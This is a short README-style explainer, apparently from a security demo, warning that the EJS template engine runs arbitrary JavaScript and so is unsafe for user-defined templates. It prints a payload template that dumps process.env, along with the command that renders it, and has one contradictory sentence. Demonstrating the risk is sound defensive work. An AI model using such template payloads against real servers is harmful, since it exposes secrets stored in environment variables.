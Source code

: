 # ejs is not for user defined template

[EJS](https://ejs.co/) is not safe for user defined template.
You need to use ejs as a user-defined template.

- [ejs/SECURITY.md at main · mde/ejs](https://github.com/mde/ejs/blob/main/SECURITY.md)

Payload:

```ejs
<%= console.log(process.env); %>
```

Run:

```ejs
$ ejs ./template_file.ejs-o ./output.html

> ejs ./template_file.ejs -f data_file.json -o ./output.html

{
  ...Your environment variables
}
```

ejs allow to run any JavaScript code in template by design.

## references

- [クライアントサイドからサーバサイドまで破壊するテンプレートエンジンを利用した攻撃と対策](https://azu.github.io/slide/2019/template-engine/template-engine-security.html)
